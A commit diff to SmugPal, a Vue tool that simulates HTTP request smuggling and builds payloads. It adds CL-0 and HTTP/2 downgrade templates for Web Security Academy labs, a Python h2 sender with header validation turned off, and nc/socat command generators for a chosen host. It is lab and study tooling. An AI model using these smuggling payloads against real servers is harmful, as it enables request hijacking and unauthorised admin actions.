

Before and after one commit to kizzx2/SmugPal, a Vue app: page / in a window 1280 px wide. Shown: the part 420-1227 px from the top of the page at 87% size, 1797 px wide, since content can reach past the window. Built offline with nearby package versions, Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
added 4 more templates, HTTP/2, refactored

```diff
--- a/src/App.vue
+++ b/src/App.vue
@@ -5,12 +5,15 @@ import Fieldset from 'primevue/fieldset'
 import InputText from 'primevue/inputtext'
 import Textarea from 'primevue/textarea'
 import { computed, ref } from 'vue'
+import { templates } from './templates'
 
 enum ProcessingMode {
   TE = 'te',
   CL = 'cl',
+  ZERO = '0',
   TECL = 'tecl',
   CLTE = 'clte',
+  H2 = 'h2',
 }
 
 const server1Mode = ref<ProcessingMode>(ProcessingMode.TE)
@@ -21,56 +24,82 @@ const colors = ['lightpink', 'lightgreen', 'lightblue', 'lightyellow', 'lightora
 const fontColors = ['black', 'black', 'black', 'black', 'black', 'black', 'black', 'black']
 const cmdHostname = ref<string>('example.com')
 const cmdPort = ref<string>('80')
-const cmdNc = computed(() => process(input.value, server1Mode.value).map((part) => {
-  part = part.replace(/'/g, `'"'"'`).replace(/\n/g, '\\r\\n')
-  return `printf '${part}' | nc ${cmdHostname.value} ${cmdPort.value}`
-}))
-const cmdSocat = computed(() => process(input.value, server1Mode.value).map((part) => {
-  part = part.replace(/'/g, `'"'"'`).replace(/\n/g, '\\r\\n')
-  return `printf '${part}' | socat - OPENSSL:${cmdHostname.value}:${cmdPort.value},verify=0`
-}))
+const cmdNc = computed(() =>
+  process(input.value, server1Mode.value).map((part) => {
+    part = part.replace(/'/g, `'"'"'`).replace(/\n/g, '\\n').replace(/\r/g, '\\r')
+    return `printf '${part}' | nc ${cmdHostname.value} ${cmdPort.value}`
+  })
+)
+const cmdSocat = computed(() =>
+  process(input.value, server1Mode.value).map((part) => {
+    part = part.replace(/'/g, `'"'"'`).replace(/\n/g, '\\n').replace(/\r/g, '\\r')
+    return `printf '${part}' | socat - OPENSSL:${cmdHostname.value}:${cmdPort.value},verify=0`
+  })
+)
+const h2Snippet = computed(() => {
+  if (server1Mode.value !== ProcessingMode.H2) {
+    return ''
+  }
+  const j = JSON.parse(input.value)
+  const headerTuples = []
+  for (const [k, v] of Object.entries(j)) {
+    if (k.startsWith(':')) continue
+    headerTuples.push(`("${k}", "${v}")`)
+  }
+  return templates.h2PythonCode
+    .replace('%%%HOST%%%', cmdHostname.value)
+    .replace('%%%PORT%%%', cmdPort.value)
+    .replace('%%%METHOD%%%', j[':method'])
+    .replace('%%%PATH%%%', j[':path'])
+    .replace('%%%HEADER_TUPLES%%%', headerTuples.join(', '))
+    .replace('%%%BODY%%%', j[':_body'] ?? '')
+})
 
 const decLength = computed(() => sizeCalcInput.value.replace(/\n/g, '\r\n').length)
 const hexLength = computed(() => sizeCalcInput.value.replace(/\n/g, '\r\n').length.toString(16))
 
-const clteTemplate = `POST / HTTP/1.1
-Host: 0ada007003e1c1b78832d43d0020006c.web-security-academy.net
-Transfer-Encoding: chunked
-Content-Length: 36
-
-0
-
-GET /flag HTTP/1.1
-X-Ignore: XGET / HTTP/1.1
-Host: 0ada007003e1c1b78832d43d0020006c.web-security-academy.net
-
-`
-
-const teclTemplate = `POST / HTTP/1.1
-Host: 0a0d00d40336daa38033173400be001a.web-security-academy.net
-Transfer-Encoding: chunked
-Content-Length: 4
-
-28
-GET /flag HTTP/1.1
-Content-Length: 75
-
-0
-
-GET / HTTP/1.1
-
-`
-
 function setTeclTemplate() {
-  input.value = teclTemplate
+  input.value = templates.teclPayload
   server1Mode.value = ProcessingMode.TE
   server2Mode.value = ProcessingMode.CL
 }
 
 function setClteTemplate() {
-  input.value = clteTemplate
+  input.value = templates.cltePayload
   server1Mode.value = ProcessingMode.CL
   server2Mode.value = ProcessingMode.TE
+}
+
+function setCl0Template() {
+  input.value = templates.cl0Payload
+  server1Mode.value = ProcessingMode.CL
+  server2Mode.value = ProcessingMode.ZERO
+}
+
+const hintText = computed(() => {
+  if (server1Mode.value === ProcessingMode.H2) {
+    return '(H2 input is specified as a JSON object and will downgrade to H1 for downstream)'
+  } else {
+    return '(newlines are converted to CRLF (2 bytes) for counting)'
+  }
+})
+
+function setH2TeTemplate() {
+  input.value = templates.h2tePayload
+  server1Mode.value = ProcessingMode.H2
+  server2Mode.value = ProcessingMode.TE
+}
+
+function setH2ClTemplate() {
+  input.value = templates.h2clPayload
+  server1Mode.value = ProcessingMode.H2
+  server2Mode.value = ProcessingMode.CL
+}
+
+function setH2WsTemplate() {
+  input.value = templates.h2wsPayload
+  server1Mode.value = ProcessingMode.H2
+  server2Mode.value = ProcessingMode.CL
 }
 
 enum State {
@@ -78,7 +107,39 @@ enum State {
   Body,
 }
 
+function downgradeInput(x: string): string {
+  const j = JSON.parse(x)
+  let rv = ''
+  let method = j[':method']
+  let shouldAddContentLength = true
+  if (method === 'CONNECT' && j[':protocol'] === 'websocket') {
+    method = 'GET'
+    shouldAddContentLength = false
+    j['Connection'] = 'Upgrade'
+    j['Upgrade'] = 'websocket'
+  }
+  rv += method + ' ' + j[':path'] + ' HTTP/1.1\n'
+  rv += 'Host: ' + j[':authority'] + '\n'
+  for (const [k, v] of Object.entries(j)) {
+    if (k.startsWith(':')) continue
+    rv += k + ': ' + v + '\n'
+  }
+  if (j[':_body'] && shouldAddContentLength) {
+    rv += `Content-Length: ${j[':_body'].length}\n`
+  }
+  rv += '\n'
+  if (j[':_body']) {
+    // HACK convert \r\n to \n because later we will add it again in `process`
+    rv += j[':_body'].replace(/\r\n/g, '\n')
+  }
+  return rv
+}
+
 function process(x: string, mode: ProcessingMode): string[] {
+  if (mode === ProcessingMode.H2) {
+    return [x]
+  }
+
   x = x.replace(/\n/g, '\r\n')
   const rv = []
   let buf = ''
@@ -99,7 +160,7 @@ function process(x: string, mode: ProcessingMode): string[] {
       }
       case State.Body: {
         let effectiveMode: ProcessingMode | undefined = mode
-        switch(mode) {
+        switch (mode) {
           case ProcessingMode.TECL: {
             if (buf.toLowerCase().indexOf('transfer-encoding: ') !== -1) {
               effectiveMode = ProcessingMode.TE
@@ -163,6 +224,7 @@ function process(x: string, mode: ProcessingMode): string[] {
         }
 
         switch (effectiveMode) {
+
           case ProcessingMode.TE: {
             const idx = x.indexOf('\r\n')
             const len = parseInt(x.slice(0, idx), 16)
@@ -192,12 +254,23 @@ function process(x: string, mode: ProcessingMode): string[] {
             break
           }
 
+          case ProcessingMode.ZERO: {
+            rv.push(buf)
+            buf = ''
+            state = State.Header
+            break
+          }
+
           case ProcessingMode.CL: {
             const idx = buf.toLowerCase().indexOf('content-length: ')
             console.assert(idx !== -1)
             const len = parseInt(buf.slice(idx).split('\r\n')[0].split(/\s+/)[1])
-            buf += x.slice(0, len)
+            const dat = x.slice(0, len)
+            buf += dat
             x = x.slice(len)
+            if (dat.length < len) {
+              buf += `<em>Error: Expecting ${len - dat.length} more bytes</em>`
+            }
             rv.push(buf)
             buf = ''
             state = State.Header
@@ -223,23 +296,28 @@ function process(x: string, mode: ProcessingMode): string[] {
 
 function processThenFormat(input: string, mode: ProcessingMode): string {
   try {
-    return process(input, mode)
-      .map((part) => part.replace(/\r/g, '<span style="color: gray">\\r</span>').replace(/\n/g, '<span style="color: gray">\\n</span>\n'))
-      .map((part, i) => `<span style="background-color: ${colors[i % colors.length]}; color: ${fontColors[i % fontColors.length]}">${part}</span>`)
-      .join('')
+    let rv = process(input, mode)
+    if (mode !== ProcessingMode.H2) rv = rv.map((part) => part.replace(/\r/g, '<span style="color: gray">\\r</span>').replace(/\n/g, '<span style="color: gray">\\n</span>\n'))
+    rv = rv.map((part, i) => `<span style="background-color: ${colors[i % colors.length]}; color: ${fontColors[i % fontColors.length]}">${part}</span>`)
+    return rv.join('')
   } catch (e) {
     return `<span style="background-color: red; color: white; font-weight: bold">${e}</span>`
   }
 }
 
-const modeOptions = [
+const server2ModeOptions = [
   { name: 'TE (Follow Transfer-Encoding only)', value: ProcessingMode.TE },
   { name: 'CL (Follow Content-Length only)', value: ProcessingMode.CL },
-  { name: 'TECL (Prefer Transfer-Encoding; then follow Content-Length)', value: ProcessingMode.TECL },
-  { name: 'CLTE (Prefer Content-Length; then follow Transfer-Encoding)', value: ProcessingMode.CLTE },
+  { name: 'ZERO (Assume 0 Content-Length)', value: ProcessingMode.ZERO },
+  { name: 'TECL (Prefer Transfer-Encoding; then try Content-Length)', value: ProcessingMode.TECL },
+  { name: 'CLTE (Prefer Content-Length; then try Transfer-Encoding)', value: ProcessingMode.CLTE },
 ]
+
+const server1ModeOptions = server2ModeOptions.concat([{ name: 'H2 (HTTP/2)', value: ProcessingMode.H2 }])
+
+const server2Input = computed(() => (server1Mode.value === ProcessingMode.H2 ? downgradeInput(input.value) : input.value))
 const server1Result = computed(() => processThenFormat(input.value, server1Mode.value))
-const server2Result = computed(() => processThenFormat(input.value, server2Mode.value))
+const server2Result = computed(() => processThenFormat(server2Input.value, server2Mode.value))
 
 setTeclTemplate()
 </script>
@@ -251,12 +329,12 @@ setTeclTemplate()
       <div class="flex">
         <div>
           <div>Server 1 Mode</div>
-          <Dropdown v-model="server1Mode" :options="modeOptions" option-label="name" option-value="value"></Dropdown>
+          <Dropdown v-model="server1Mode" :options="server1ModeOptions" option-label="name" option-value="value"></Dropdown>
         </div>
 
         <div>
           <div>Server 2 Mode</div>
-          <Dropdown v-model="server2Mode" :options="modeOptions" option-label="name" option-value="value"></Dropdown>
+          <Dropdown v-model="server2Mode" :options="server2ModeOptions" option-label="name" option-value="value"></Dropdown>
         </div>
       </div>
     </Fieldset>
@@ -264,12 +342,16 @@ setTeclTemplate()
     <Fieldset legend="Templates" style="flex: 1 0 auto">
       <Button link label="TE-CL" @click="setTeclTemplate()"></Button>
       <Button link label="CL-TE" @click="setClteTemplate()"></Button>
+      <Button link label="CL-0" @click="setCl0Template()"></Button>
+      <Button link label="H2-TE" @click="setH2TeTemplate()"></Button>
+      <Button link label="H2-CL" @click="setH2ClTemplate()"></Button>
+      <Button link label="H2-WS" @click="setH2WsTemplate()"></Button>
     </Fieldset>
 
     <Fieldset legend="Size Calculator" style="flex: 1 0 auto">
       <textarea style="width: 100%" v-model="sizeCalcInput"></textarea><br />
       Dec: {{ decLength }} &nbsp;&nbsp;&nbsp; Hex: {{ hexLength }}<br />
-      <small>(newlines are converted to CRLF (2 bytes) for counting)</small>
+      <small>(newlines are automatically converted to CRLF during processing)</small>
     </Fieldset>
   </div>
   <br />
@@ -285,7 +367,7 @@ setTeclTemplate()
       <div style="flex: 0 0 auto; flex-direction: column" class="flex">
         <Textarea v-model="input" autofocus style="flex: 1 1 auto"></Textarea>
         <br />
-        <small style="font-family: sans-serif">(newlines are automatically converted to CRLF during processing)</small>
+        <small style="font-family: sans-serif">{{ hintText }}</small>
       </div>
 
       <pre style="flex: 1 0 auto" v-html="server1Result"></pre>
@@ -295,21 +377,24 @@ setTeclTemplate()
 
   <br />
 
-  <Fieldset legend="Command Line">
+  <Fieldset legend="Command Line" class="command-line">
     <div style="display: flex; gap: 1em">
-      <div>
-        <label>Hostname</label>&nbsp;
-        <InputText placeholder="Hostname" v-model="cmdHostname" />&nbsp;
-      </div>
+      <div><label>Hostname</label>&nbsp; <InputText placeholder="Hostname" v-model="cmdHostname" />&nbsp;</div>
       <div>
         <label>Port</label>&nbsp;
         <InputText placeholder="Port" v-model="cmdPort" />
       </div>
     </div>
-    <small style="font-family: sans-serif;">nc (HTTP)</small>
-    <pre style="background-color: #eee; padding: 0.5rem; max-width: 100%; white-space: normal; overflow-wrap: break-word;" v-for="(cmd, i) in cmdNc" :key="i">{{ cmd }}</pre>
-    <small style="font-family: sans-serif;">socat (HTTPS)</small>
-    <pre style="background-color: #eee; padding: 0.5rem; max-width: 100%; white-space: normal; overflow-wrap: break-word;" v-for="(cmd, i) in cmdSocat" :key="i">{{ cmd }}</pre>
+    <div v-if="server1Mode !== 'h2'">
+      <small>nc (HTTP)</small>
+      <pre style="white-space: normal; overflow-wrap: break-word" v-for="(cmd, i) in cmdNc" :key="i">{{ cmd }}</pre>
+      <small>socat (HTTPS)</small>
+      <pre style="white-space: normal; overflow-wrap: break-word" v-for="(cmd, i) in cmdSocat" :key="i">{{ cmd }}</pre>
+    </div>
+    <div v-else>
+      <small><a href="https://github.com/python-hyper/h2" target="_blank">h2</a> snippet (HTTPS ALPN)</small>
+      <pre>{{ h2Snippet }}</pre>
+    </div>
   </Fieldset>
 </template>
 
@@ -323,4 +408,14 @@ setTeclTemplate()
 .simulator pre {
   font-family: monospace;
 }
+
+.command-line small {
+  font-family: sans-serif;
+}
+
+.command-line pre {
+  background-color: #eee;
+  padding: 0.5rem;
+  max-width: 100%;
+}
 </style>
--- /dev/null
+++ b/src/templates.ts
@@ -0,0 +1,99 @@
+export const templates = {
+    cltePayload: `POST / HTTP/1.1
+Host: 0ada007003e1c1b78832d43d0020006c.web-security-academy.net
+Transfer-Encoding: chunked
+Content-Length: 36
+
+0
+
+GET /flag HTTP/1.1
+X-Ignore: XGET / HTTP/1.1
+Host: 0ada007003e1c1b78832d43d0020006c.web-security-academy.net
+
+`, cl0Payload: `POST /resources/images/blog.svg HTTP/1.1
+Host: 0a1300910335262282d03366007600a5.web-security-academy.net
+Content-Length: 50
+
+GET /admin/delete?username=carlos HTTP/1.1
+Foo: xGET / HTTP/1.1
+Host: 0a1300910335262282d03366007600a5.web-security-academy.net
+
+`, teclPayload: `POST / HTTP/1.1
+Host: 0a0d00d40336daa38033173400be001a.web-security-academy.net
+Transfer-Encoding: chunked
+Content-Length: 4
+
+28
+GET /flag HTTP/1.1
+Content-Length: 23
+
+0
+
+GET / HTTP/1.1
+
+`, h2tePayload: `{
+  ":method": "POST",
+  ":path": "/x",
+  ":authority": "0a0d00d40336daa38033173400be001a.web-security-academy.net",
+  ":scheme": "https",
+  "Transfer-Encoding": "chunked",
+  ":_body": "0\\r\\n\\r\\nGET /x HTTP/1.1\\r\\nHost: 0a0d00d40336daa38033173400be001a.web-security-academy.net\\r\\n\\r\\n"
+}`, h2clPayload: `{
+  ":method": "POST",
+  ":path": "/x",
+  ":authority": "0abc004104142dd28012a82000a70034.web-security-academy.net",
+  ":scheme": "https",
+  "Content-Length": "0",
+  ":_body": "GET /x HTTP/1.1\\r\\nHost: 0abc004104142dd28012a82000a70034.web-security-academy.net\\r\\nContent-Length: 5\\r\\n\\r\\nx=1"
+}`, h2wsPayload: `{
+    ":method": "CONNECT",
+    ":path": "/",
+    ":authority": "example.com",
+    ":protocol": "websocket",
+    ":_body": "GET /internal HTTP/1.1\\r\\n\\r\\n"
+}`, h2PythonCode: `import socket
+import ssl
+import sys
+
+import h2.connection
+
+host = "%%%HOST%%%"
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+s.connect((host, %%%PORT%%%))
+ctx = ssl.create_default_context(purpose=ssl.Purpose.SERVER_AUTH)
+ctx.options |= ssl.OP_NO_COMPRESSION
+ctx.set_alpn_protocols(["h2", "http/1.1"])
+s = ctx.wrap_socket(s, server_hostname=host)
+c = h2.connection.H2Connection()
+c.config.normalize_outbound_headers = False
+c.config.validate_outbound_headers = False
+c.config.validate_inbound_headers = False
+c.initiate_connection()
+s.sendall(c.data_to_send())
+
+sid = c.get_next_available_stream_id()
+data = """%%%BODY%%%""".replace("\\n", "\\r\\n").encode()
+
+c.send_headers(sid, [
+    (":method", "%%%METHOD%%%"), (":path", "%%%PATH%%%"), (":authority", host), (":scheme", "https"),
+    %%%HEADER_TUPLES%%%
+])
+if data:
+    c.send_data(sid, data)
+c.end_stream(sid)
+s.sendall(c.data_to_send())
+
+while True:
+    data = s.recv(65535)
+    if not data:
+        break
+    for event in c.receive_data(data):
+        print(event)
+        if isinstance(event, h2.events.DataReceived):
+            print(event.data)
+            pass
+        elif isinstance(event, ( h2.events.ConnectionTerminated, h2.events.StreamEnded, h2.events.StreamReset)):
+            sys.exit(0)
+    s.sendall(c.data_to_send())
+`
+}
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders).
